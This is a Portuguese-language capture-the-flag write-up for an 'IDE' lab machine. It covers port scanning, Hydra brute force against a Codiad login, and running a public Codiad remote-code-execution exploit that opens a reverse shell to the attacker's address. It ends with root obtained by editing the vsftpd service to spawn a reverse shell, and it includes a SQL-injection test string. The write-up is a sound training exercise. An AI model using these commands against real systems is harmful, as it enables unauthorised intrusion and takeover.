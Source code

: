 # _**IDE CTF**_
![](ide.jpg)

## _**Enuemração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos login via FTP com o usuário **FTP**  
Temos também um website na porta 80  
Verificando o conteúdo do login FTP, não temos nenhum arquivo  
Vamos investigar o website e realizar um _brute force_ de diretórios com <mark>Gobuster</mark>  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/big.txt
> ```
![](scan_gobuster.jpg)

Parece que não temos nada  
Tentamos realizar upload de arquivos via FTP, mas também sem sucesso  
Ainda desconfiado, voltei para realizar um scan com **Nmap**, mas desta vez, mais simples  
> ```bash
> nmap -p- [ip_address]
> ```

Descobrimos uma porta aberta com serviço desconhecido  
Investigando com um scan **Nmap**, parece ser um webserver com uma página de login  
E também temos um nome: Codiac 2.8.4

![](scan_nmap2.jpg)

Vamos tentar um ```SQL Injection``` com: ```' || '1'='1';-- -```
Sem sucesso  
Buscando na Internet por exploits relacionados a Codiac, encontramos no GitHub a [CVE-2018-14009](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit)  
Parece ser necessário um usuário e senha para poder executar este exploit  
Vamos voltar a investigar o website  

Após passar um tempo visitando diretórios e lendo arquivos, nada foi encontrado  
Voltando alguns passos, agora para o FTP, minha intuição estava dizendo que havia algo ali  
Investigando, foi encontrado um arquivo de nome (-), literalmente  
Algo fácil de passar despercebido  
Extraímos para noss computador e temos um usuário!  

![](user_discover.jpg)

Podemos utilizar <mark>Hydra</mark> para realizar _brute force_  
> ```bash
> hydra -l john -P /usr/share/wordlists/rockyou.txt [ip_address] -s 62337 http-post-form "/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^:Incorrect Username/Password"
> ```
![](hydra_result.jpg)

Parece que temos muitas senhas!  
Vamos tentar algumas  
E ```password``` era a correta. Temos acesso!  
Agora que conhecemos sua senha, vamos utilizar-se do exploit encontrado para ganhar uma shell
> ```bash
> python3 [filename].py http://[ip_address]:62337/ john password [vpn_ip_address] [port] linux
> ```

Foram necessárias alterações no código base como
* colocar () em todos os _prints_
* na linha 23, alterar _content = response.read()_, para _content = response.content.decode()_
* na linha 105, alterar _ans = raw_input("[Y/n] ").lower()_, para _ans = input("[Y/n] ").lower()_

![](code_alter.jpg)

![](shell.jpg)

## _**Escalando privilégios**_
Primeiro, vamos transferir <mark>LinPeas</mark> para a máquina-alvo e executar  

![](creds.jpg)

Parece que encontramos credenciais de uso do usuário  
Vamos realizar _upgrade_ de nossa shell e entrar no usuário  
> ```bash
> python3 -c 'import pty, os; pty.spawn("/bin/bash")'
> ```

![](drac_login.jpg)

Como temos senha, vamos executar o comando ```sudo -l```  

![](sudo_return.jpg)

Parece que podemos reiniciar o serviço **FTP** como _root_  
Vamos ver se temos permissão para editar o arquivo _.vsftpd.config_  
Com um simples ```ls -la```, verificamos que é possível!  
Podemos então editar e executar nosso shell reverso  
Assim, quando reiniciarmos o vsftpd como root, obteremos um shell reverso como root  
Alteramos o arquivo com ```nano```, utilizamos o comando ```systemctl daemon-reload``` para gravar as alterações e por fim, executamos ```/usr/sbin/service vsftpd restart```  

![](root.jpg)

Agora, basta ir atrás das flags!
